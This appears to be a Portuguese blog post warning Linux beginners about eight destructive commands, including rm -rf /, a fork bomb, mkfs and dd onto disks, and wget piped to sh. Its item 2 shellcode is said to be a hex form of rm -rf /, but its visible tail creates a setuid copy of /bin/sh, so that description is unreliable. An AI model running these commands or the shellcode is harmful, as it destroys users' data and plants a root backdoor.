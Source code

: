 ```yaml
---
title:  Os 8 Comandos da Morte
categories: seguranca
tags: linux shell
---
```


![{{ post.title }}]({{ site.url }}/assets/img_posts/dark-hole.png)

Existem comandos no Linux que são realmente perigosos e podem destruir todo o sistema. Não é incomum ver trolls recomendarem que novatos no mundo Linux executem tais comandos simplesmente para tirarem sarro.

Aprender comandos que você não deve executar pode lhe ajudar a identificar possíveis ameaças e aumentar sua compreensão de como o Linux funciona.

Note que muitos desses comandos só são realmente perigosos se forem executados como Super Usuário (root).

## 1 – Excluir tudo

```sh
rm –rf /
```

O comando `rm -rf /` excluirá todo o sistema, incluindo todos os dispositivos que estejam montados.

### Interpretação:

- `rm`: Remove arquivos
- `rm -r`: Remove diretórios e arquivos recursivamente
- `rm -rf`: Remove diretórios e arquivos recursivamente de maneira forçada
- `/`: Local a ser removido


Algumas distribuições executarão esse comando sem lhe perguntar nada, então tenha atenção com isso!

O comando `rm` também pode ser usado de outras formas perigosas.

Por exemplo: `rm -rf ~` apaga tudo dentro da pasta home, e `rm -rf .*` apaga todos os arquivos ocultos, que podem possuir configurações importantes.

**Lição**: Muita atenção ao usar o `rm`.

## 2 – Excluir tudo (versão hexadecimal)

```sh
char esp[] __attribute__ ((section(“.text”))) /* e.s.p
release */
= “xebx3ex5bx31xc0x50x54x5ax83xecx64x68”
“xffxffxffxffx68xdfxd0xdfxd9x68x8dx99”
“xdfx81x68x8dx92xdfxd2x54x5exf7x16xf7”
“x56x04xf7x56x08xf7x56x0cx83xc4x74x56”
“x8dx73x08x56x53x54x59xb0x0bxcdx80x31”
“xc0x40xebxf9xe8xbdxffxffxffx2fx62x69”
“x6ex2fx73x68x00x2dx63x00”
“cp -p /bin/sh /tmp/.beyond; chmod 4755
/tmp/.beyond;”;
```

Lembre-se desse formato!

Esse código é a versão hexadecimal do `rm -rf /`. Executá-lo também irá destruir todo o sistema.

**Lição**: Nunca execute comandos de aparência estranha que você não saiba para o que serve.

## 3 – Fork Bomb

```sh
:(){ :|: & };:
```

A linha acima é uma função em bash de aparência simples, mas perigosa.

Esta linha curta define uma função que cria novas cópias de si mesmo. O processo replica-se continuamente, cada uma de suas cópias também replicam-se e rapidamente ocupa toda a capacidade de processamento da CPU e o espaço da memória. Isso fará com que o computador trave. Basicamente, é considerado um ataque de negação de serviços.

**Lição**: Funções bash são poderosas, mesmo que sejam muito curtas.

## 4 – Formatar HD

```sh
mkfs.ext4 /dev/sda1
```

O comando `mkfs.ext4 /dev/sda1` é simples de entender:

### Interpretação:

- `mkfs.ext4`: Define a criação de um novo sistema de arquivos ext4.
- `/dev/sda1`: Local onde será criado o novo sistema de arquivos.

Tomados em conjunto, este comando pode ser equivalente a formatação da partição C: no Windows - ele irá limpar os arquivos em sua primeira partição e substituí-los com um novo sistema de arquivos.

Este comando pode vir de outras formas, como `mkfs.ext3 /dev/sdb2` que formata a segunda partição no segundo disco rígido com o sistema de arquivos _ext3_.

**Lição**: Cuidado com a execução de comandos que irão para _/dev/sd*_.


## 5 – Escrever diretamente no HD

```sh
comando > /dev/sda
```

Essa linha de comando funciona de forma semelhante a anterior. Ela executa um comando e envia a saída desse comando para o primeiro disco rígido, escrevendo os dados diretamente na unidade de disco rígido e danifica o sistema de arquivos.

### Interpretação:

- `comando`: Pode ser qualquer comando.
- `>`: Envia a saída do comando para algum local.
- `/dev/sda`: Local para onde o comando é enviado.

**Lição**: Como no exemplo 4, cuidado com a execução de comandos que envolvem dispositivos de disco rígido com saída para _/dev/sd*_.

## 6 – Escrita aleatória no HD

```sh
dd if=/dev/random of=/dev/sda
```

O comando acima também destrói os dados de um disco rígido.

### Interpretação:

- `dd`: Executa a cópia de um local para outro.
- `if=/dev/random`: Usa dispositivos de entrada _/dev_ aleatórios.
- `of=/dev/sda`: Saída para o primeiro disco rígido, substituindo o seu sistema de arquivos com dados aleatórios.

**Lição**: O comando `dd` copia dados de um local para outro, o que pode ser perigoso se for copiando diretamente para um dispositivo.

## 7 – Baixar e executar scripts

```sh
wget http://site.com/arquivo -O - | sh
```

A linha acima faz download de um arquivo na web e o envia para o sh, que executa o conteúdo do script. Isso pode ser perigoso se não souber o que há no script ou se sua fonte não for confiável.

### Interpretação:

- `wget`: Realiza downloads.
- `http://site.com/arquivo`: Local a ser feito o download.
- `|`: Pipe (envia) a saída do comando wget (o conteúdo do arquivo baixado) para outro comando.
- `sh`: Comando que executará o arquivo.

**Lição** Não baixe e execute scripts não confiáveis.

## 8 – Mover diretórios para um buraco negro

```sh
mv ~ /dev/null
```

O _/dev/null_ é outro local especial que se deve ter atenção.

Qualquer coisa movida para _/dev/null_ é destruída. Pense nisso como um buraco negro.

### Interpretação:

- `mv`: Move arquivos ou diretórios.
- `~`: Representa pasta home do usuário logado.
- `/dev/null`: Local para onde a pasta home será movida.

**Lição**: O caractere ~ representa a pasta pessoal do usuário logado e move-la para _/dev/null_ irá destruí-la totalmente.
